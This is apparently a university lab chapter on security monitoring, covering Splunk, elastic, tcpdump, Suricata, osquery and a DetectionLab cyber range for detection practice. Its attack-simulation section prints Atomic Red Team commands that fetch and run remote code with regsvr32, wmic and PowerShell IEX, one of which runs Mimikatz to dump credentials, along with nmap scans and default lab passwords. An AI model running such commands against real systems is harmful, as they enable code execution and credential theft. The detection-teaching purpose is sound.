03 SECURITY OPERATIONS AND MONITORING
Contents
03 SECURITY OPERATIONS AND MONITORING¶
In this section, we will cover:
Security Information and Event Management (SIEM).
Intrusion Detection Systems (IDS)
Network Traffic Analysis
Data query (osquery)
Cyber Range (DetectionLab)
SIEM Tools¶
What is a SIEM? Security Information and Event Management (SIEM) is software that improves security awareness of an IT environment by combining security information management (SIM) and security event management (SEM). SIEM solutions enhance threat detection, compliance, and security incident management through the gathering and analysis of real-time and historical security event data and sources. SIEM main capabilities provide a broad range of log event collection and management, increasing the ability to analyze log events and other data across dissimilar sources, and operational capabilities including incident management, dashboards, and reporting. SIEM also offers data aggregation across the enterprise network and normalization of that data for further analysis. Additionally, SIEM helps enable security monitoring, user activity monitoring, and compliance.
Splunk¶
One of the most widely known tools for developing a SIEM (Security Information and Event Management) system. Splunk has been used for a number of years, and by many organisations round the world. It essentially provides the mechanism to ingest and search data at scale, meaning that it is well-suited for machine data such as machine-generated logging. However the use cases of Splunk actually extend beyond cyber security to various other big data analysis domains. Users can search data using the Splunk Query Language, a similar concept to that of Structured Query Language used for common databases.
Splunk Attack Range: The Attack Range is a detection development platform, which solves three main challenges in detection engineering:
The user is able to quickly build a small lab infrastructure as close as possible to a production environment.
The Attack Range performs attack simulation using different engines such as Atomic Red Team or Caldera in order to generate real attack data.
It integrates seamlessly into any Continuous Integration / Continuous Delivery (CI/CD) pipeline to automate the detection rule testing process.
elastic¶
elastic (formerly known as ELK stack) is a suite of big data analytic tools: ElasticSearch, LogStash and Kibana. These are often used to construct a SIEM environment. The following examples come from the elastic repository, describing the use of Machine Learning for various cyber security tasks.
Network Traffic Analysis¶
tcpdump¶
As perhaps the simplest approach for obtaining network packet capture data, tcpdump is a Linux command line tool that can achieve this easily. Wireshark is a popular cross-platform tool with GUI. tshark is the command line version of wireshark, and pyshark is a Python wrapper that interacts with tshark.
Whilst we can use pyshark within a traditional Python script file (*.py), it can cause some issues with the Jupyter Lab environment - so for now we will examine tcpdump outputs.
If we want to capture tcpdump activity frrom within Jupyter Lab we can do the following:
output = !sudo tcpdump -c 100 -nn
(The exclamation mark indicates a bash command to execute, that will then be stored in our Python variable named output. The ability to combine bash scripting with Python scripting is just one benefit of the Jupyter environment.)
output = !sudo tcpdump -c 100 -nn
import pandas as pd
df = pd.DataFrame(output[2:])
output = output[2:-3]
nn = []
for i in output:
entry = []
dd = i.split(": ")
if len(dd) > 1:
ddd = dd[0].split(" ")
src_ip = ddd[2].split('.')
print (len(src_ip))
if len(ddd) > 4:
dest_ip = ddd[4].split('.')
print (len(dest_ip))
entry = [ddd[0], ddd[1], ddd[2], dd[1]]
print (entry, ddd)
nn.append(entry)
df = pd.DataFrame(nn)
df
Intrusion Detection¶
Suricata¶
Suricata is an open-source Intrusion Detection System (IDS). According to the homnepage, ‘Suricata is the leading independent open source threat detection engine. By combining intrusion detection (IDS), intrusion prevention (IPS), network security monitoring (NSM) and PCAP processing, Suricata can quickly identify, stop, and assess the most sophisticated attacks’. Here we will describe briefly some of the setup and usage of the tool.
Installation in Ubuntu is via the usual apt-get mechanism:
sudo apt-get install suricata
Configuration is in /etc/suricata, default rules exist in /etc/suricata/rules and logging is in /var/log/suricata.
We can edit the configuration using sudo nano /etc/suricata/suricata.yaml
(YAML is “Yet Another Markup Language!”)
Suricata can be launched as follows (specifying the network adapter that we wish to monitor):
sudo suricata -c /etc/suricata/suricata.yaml -i ens33 --init-errors-fatal
On start up this will populate the rulesets using the emergingthreats.net site.
We can stop/restart suricata using the service command in Ubuntu:
sudo service suricata stop/restart
Accessing the log data: Logging is captured in the /var/log/suricata/eve.json file (event file). Some useful ways to interact with this:
wc eve.json(will print out the number of lines, number of words and number of bytes).head eve.json -n 10(will print out the first/top 10 lines, i.e. the oldest)tail eve.json -n 10(will print out the last/bottom 10 lines, i.e. the most recent)
Another useful tool to know about for managing log data is jq. This is a light-weight tool for parsing and searching JSON documents.
sudo apt-get install jq
Example usage:
tail eve.json -n 10 | jq '.'- this will do as above, but then will pipe the result to jq which will format the result on the CLI.cat eve.json | jq 'select(.event_type=="flow")'- specify a matching querycat eve.json | jq 'select(.src_ip=="192.168.147.147" and .proto=="UDP")'- specify multiple matching queriescat eve.json | jq 'select(.src_port > 40000)'- specify a range query
Accessing the log data using Pandas:
An alternative method is to use Pandas and the Jupyter Lab environment. Below we show an example of accessing these using the Pandas library. For completeness, we first extract the eve.json from our virtual machine using SCP (secure copy).
scp uwe@192.168.147.146:/var/log/suricata/eve.json .(copy from the Ubuntu source directory to our current target directory)
import pandas as pd
filename = './example_data/eve.json'
df = pd.read_json(filename, lines=True)
df
---------------------------------------------------------------------------
ValueError Traceback (most recent call last)
<ipython-input-2-88dbe434df98> in <module>
1 import pandas as pd
2 filename = './example_data/eve.json'
----> 3 df = pd.read_json(filename, lines=True)
4 df
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\util\_decorators.py in wrapper(*args, **kwargs)
197 else:
198 kwargs[new_arg_name] = new_arg_value
--> 199 return func(*args, **kwargs)
200
201 return cast(F, wrapper)
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\util\_decorators.py in wrapper(*args, **kwargs)
294 )
295 warnings.warn(msg, FutureWarning, stacklevel=stacklevel)
--> 296 return func(*args, **kwargs)
297
298 return wrapper
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\io\json\_json.py in read_json(path_or_buf, orient, typ, dtype, convert_axes, convert_dates, keep_default_dates, numpy, precise_float, date_unit, encoding, lines, chunksize, compression, nrows)
616 return json_reader
617
--> 618 result = json_reader.read()
619 if should_close:
620 filepath_or_buffer.close()
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\io\json\_json.py in read(self)
751 data = ensure_str(self.data)
752 data = data.split("\n")
--> 753 obj = self._get_object_parser(self._combine_lines(data))
754 else:
755 obj = self._get_object_parser(self.data)
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\io\json\_json.py in _get_object_parser(self, json)
775 obj = None
776 if typ == "frame":
--> 777 obj = FrameParser(json, **kwargs).parse()
778
779 if typ == "series" or obj is None:
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\io\json\_json.py in parse(self)
884
885 else:
--> 886 self._parse_no_numpy()
887
888 if self.obj is None:
~\.conda\envs\jupyterbook_env\lib\site-packages\pandas\io\json\_json.py in _parse_no_numpy(self)
1117 if orient == "columns":
1118 self.obj = DataFrame(
-> 1119 loads(json, precise_float=self.precise_float), dtype=None
1120 )
1121 elif orient == "split":
ValueError: Expected object or value
df['event_type'].unique()
array(['dns', 'stats', 'http', 'flow', 'dhcp', 'fileinfo', 'tls', 'alert'],
dtype=object)
Data retrival¶
osquery¶
osquery is a tool that was originally developed by Facebook in 2014, and has been widely adopted by the open-source community. There is a fantastic getting started guide available from Scott Roberts.
Cyber Range¶
DetectionLab¶
DetectionLab is developed by Chris Long, Senior Analyst at Netflix, and offers a quick and easy way to create your own virtualised cyber range. It incorporates a number of the tools used today - Splunk, Suricata, osquery, Microsoft ATA, and more. It manages log generation and collection. It has Active Directory built in. This is a perfect set up for testing offensive and defensive security measures against a realistic virtualised infrastructure, without taking hours (or possibly days) to set up.

The DetectionLab environment is as depicted above. It consists of 4 Virtual Machines:
Logger: This machine is responsible for curating all logging information from the network.
DC: Domain Controller machine responsible for hosting the network Active Directory.
WEF: Windows Event Forwarder responsible for logging all Microsoft Windows events.
Win10: An endpoint workstation typical of a user in an organisation.
Following the guide at:
https://www.detectionlab.network/deployment/windowsvm/
We will test with VMware - we need VMware Workstation Pro installed (using the UWE license key from OnTheHub).
Virtualbox A licensed copy of VMware Workstation
Install it with vagrant plugin install vagrant-vmware-desktop.
Additionally, the Vagrant VMware Utility must also be installed.
We have also downloaded Packer (for completeness) and copied the excutable to our PATH (e.g., C:/Windows/System32 directory).
We clone the DetectionLab repository: git clone https://github.com/clong/DetectionLab.git
We run: .\prepare.ps1 to check our system is configured correctly (you need to be Administrator to run this script).

We then run: vagrant up –provider=vmware_desktop (this script should be run as a standard user)
We did then observe an error later on, which required running vagrant plugin install vagrant-reload to resolve. We then bring vagrant up again as the previous step.
Once the script completes, we should see 4 VMs running within VMware: logger, dc, wef, and win10. For the Windows machines, you should see the standard GUI login page.
Next we run vagrant status from our host machine.

We can use SSH to access the machine - we use vagrant ssh logger.

Use ip addr to get IP address information.

We can see that there are two IP addresses - one for each network card: 192.168.147.149 and 192.168.56.105. One of these will be for your internal VM network, and one is connected via NAT (Network Address Translation). Try to ping the addresses in a separate command window to see which response (for me, 192.168.147.149 is accessible from my host). We will refer to this as IP_ADDRESS.
You can access the following from your host:
Splunk: Navigate to https://IP_ADDRESS:8000. Login using admin:changeme.
Fleet: Navigate to https://IP_ADDRESS:8412. Login using admin:admin123#.
(Bypass the warning of using HTTPS that Chrome may present).


Conducting an Attack¶
Now let’s simulate an attack on our network using Atomic Red Team from Red Canary.
https://redcanary.com/getting-started-with-atomic-red-team/
We will use the Regsvr32 attack flagged by Red Canary here as the third most common:
https://redcanary.com/blog/3-technique-regsvr32-t1117/

MITRE’s definition, “Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries.”
RegSvr32: regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
Credential Dumping: powershell.exe “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/L3g1tCrad1e’); Invoke-Mimikatz -DumpCr”
XSL Script Processing: wmic.exe process list /FORMAT:”https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl”

Jump back to Splunk:
index=”suricata”
index=”sysmon”
Set up Kali¶
We can install a Kali Linux VM to deploy attacks against our infrastructure.
Set this up using the standard Kali Linux VM (download from their website). Configure the VM to use a static network address.
For my example, I will use 192.168.56.199 (Default Gateway 192.168.56.1).
I can then test the connection by pinging the logger machine 192.168.56.105.

Using nmap¶
We can now start to assume the roles of offensive and defensive to examine our network in greater detail, both from an attacker’s perspective, and how this may be observed from a defender’s perspective.
Firstly, let’s use nmap (network mapper) to see what services are available across the network.
We can use the command nmap -sS 192.168.56.102-105 to perform a service scan across all four machines. If we want to assume we do not know the IP range beforehand, we could also do nmap -sS 192.168.56.0/24 to check all address in the subnet range.

Useful links:
Setting up Logging
Detection Engineering
DetectionLab: Managing the Virtual Machines¶
All commands must be run from the “DetectionLab/Vagrant” folder:
Bring up all Detection Lab hosts using Virtualbox: vagrant up –provider=virtualbox
Bring up all Detection Lab hosts using VMware: vagrant up –provider=vmware_desktop
Bring up a specific host: vagrant up
Restart a specific host: vagrant reload
Restart a specific host and re-run the provision process: vagrant reload
–provision Destroy a specific host: **vagrant destroy
Destroy the entire Detection Lab environment: vagrant destroy (Adding -f forces it without a prompt)
SSH into a host (only works with Logger): vagrant ssh logger
Run a WinRM command on a host (only works with DC, WEF, and WIN10): vagrant winrm –command hostname –shell powershell
Check the status of each host: vagrant status
Suspend the lab environment: vagrant suspend
Resume the lab environment: vagrant resume
Shutdown each host: vagrant halt
The Splunk license will only allow approx 500MB of ingest. It is therefore advised that you bring up the environment, conduct your testing, and then destroy the environment. You can then provision a new environment when required.
Other lab machines (e.g., Kali, UWEcyber) can then be preserved and re-linked to the testing infrastructure. Do not store any work on the DetectionLab VMs in case these should be inaccessible.